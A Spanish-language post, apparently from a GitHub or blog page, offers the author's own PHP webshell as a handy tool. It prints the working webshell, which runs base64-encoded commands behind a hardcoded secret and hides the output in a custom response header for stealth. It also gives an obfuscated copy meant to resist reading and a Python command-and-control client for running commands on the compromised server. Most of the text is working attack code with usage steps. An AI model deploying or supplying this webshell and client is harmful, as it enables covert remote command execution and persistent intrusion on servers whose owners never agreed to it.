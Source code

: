 # WebShell

Os presento una pequeña herramienta que os podría ser útil.

Se trata de una webshell en php creada por mi.

```php
<?php
$v = 'W3lc0m3!'; $s = $_GET['s']; $c_d = base64_decode($s);
if ($c_d == $v) { $c_b64 =  $_GET['_']; $cmnd = base64_decode($c_b64);
$opt = `$cmnd`; $opt_b64 = base64_encode($opt); header('x: ' . $opt_b64);
} else { echo ''; }
?>
```

Esta pequeña webshell funciona de la siguiente manera:

En el código se ha fijado en una variable el valor de un “secreto”, en este caso `W3lc0m3!`. El funcionamiento del script solo funcionara si se envía a través de un parámetro llamado “s” el secreto encodeado en base64, de esta forma: `https://localhost/webshell.php?s=VzNsYzBtMyE=`

De esta forma, se entra en el condicional para que al añadir otro parámetro llamado “_” se ejecute el comando. Al igual que el parámetro anterior, este tiene que enviarse en base64 también, de la siguiente forma: `https://localhost/webshell.php?s=VzNsYzBtMyE=&_=d2hvYW1p`

Esta petición ejecutara el comando `whoami`, el servidor añadirá una nueva cabecera en la respuesta del servidor llamada “x” con el contenido del comando ejecutado en base64.

De esta forma somos “un poco” mas sigilosos y no hacemos tanto ruido en el servidor. 

Añado un código php ofuscado para que sea mas difícil la lectura del código.

```php
<?php goto HfT43; Occd3: $c_d = base64_decode($s); goto qJGNO; jda1x: $s = $_GET["\x73"]; goto Occd3; HfT43: $v = "\127\63\x6c\143\60\155\63\x21"; goto jda1x; qJGNO: if ($c_d == $v) { $c_b64 = $_GET["\137"]; $cmnd = base64_decode($c_b64); $opt = `{$cmnd}`; $opt_b64 = base64_encode($opt); header("\170\72\x20" . $opt_b64); } else { echo ''; } goto hDgCE; hDgCE: ?>
```

Una vez subido la webshell con éxito al servidor. Podemos utilizar el siguiente script de Python para ejecutar comandos cómodamente.

```python
#!python3

import requests, argparse, os, base64, binascii, signal

#Colores
class Color:
    BLUE = '\033[94m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'

# CTRL+C
def def_hundler(sig, frame):
    print(Color.YELLOW + "[!]Saliendo..")
    exit(1)
signal.signal(signal.SIGINT, def_hundler)

def main(url,secret,cmd):
    secret_bytes = secret.encode('utf-8')
    e_secret = binascii.b2a_base64(secret_bytes, newline=False).decode()
    r = requests.get(url+f"?s={e_secret}+&_={cmd}")
    if "Passing null to parameter" in r.text:
        print(Color.RED + "El comando no es valido")
    else:
        output = base64.b64decode(r.headers['x'].encode('utf-8'))
        print(Color.BLUE + f"Comando ejecutado: \n")
        print(Color.GREEN + output.decode('iso-8859-1'))

def usage():
    fNombre = os.path.basename(__file__)
    ussage = fNombre + ' [-h] -url <URL> [-secret SECRET] \n\n'
    ussage += '[+] Examples:\n'
    ussage += '\t' + fNombre + ' -url https://wordpress.com/ -secret secret\n'
    return ussage

def arguments():
    parser = argparse.ArgumentParser(usage=usage(), description="Python3 C2")
    parser.add_argument('-url', dest='url', type=str, help='URL')
    parser.add_argument('-secret', dest='secret', type=str, default=False, help='Secret')
    return parser.parse_args()

if __name__ == '__main__':
    args = arguments()
    while True:
        cmd = input(Color.RED + "> ")
        cmd_bytes = cmd.encode('utf-8')
        e_cmd = binascii.b2a_base64(cmd_bytes, newline=False).decode()
        main(args.url, args.secret, e_cmd)
```

El uso del script es el siguiente:

`python.exe ./webshell.py -url "[http://localhost/ofuscated.php](http://localhost/ofuscated.php)" -secret W3lc0m3!`

![Untitled](/assets/images/WebShell/Untitled.png)

![Untitled](/assets/images/WebShell/Untitled%201.png)